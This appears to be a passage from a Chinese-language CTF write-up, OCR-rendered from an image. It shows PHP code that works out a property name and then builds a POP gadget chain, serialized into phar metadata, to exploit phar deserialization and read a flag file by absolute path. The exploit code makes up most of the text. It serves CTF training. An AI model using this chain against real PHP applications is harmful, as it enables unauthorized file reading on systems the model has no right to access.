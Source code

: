 ```php
{
    public $source;
    public $str;
    public function __toString()
    {
        $content = $this->str['str']->source;
        return $content;
    }
}
class Test
{
    public $file;
    public $params;
    public function __construct()
    {
        $this->params = array();
    }
    public function __get($key)
    {
        return $key;
    }
}

$clear = new C1e4r();
$show = new Show();
$test = new Test();
$clear->str=$show;
$show->str['str']=$test;
?>
```

得到结果为`source`,说明`Test::_get`的参数`$key`的值为`source`,因此构造POP链时,`params`的键值为`source`

```php
<?php
class C1e4r
{
    public $test;
    public $str;
}
class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params;
}
$a=new C1e4r();
$b=new Show();
$c=new Test();

$a->str=$b;
$b->str['str']=$c;
$c->params['source']='/var/www/html/f1ag.php';//注意使用绝对路径因为..被过滤了

$phar=new Phar("asdf.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt","asdf");
$phar->stopBuffering();
```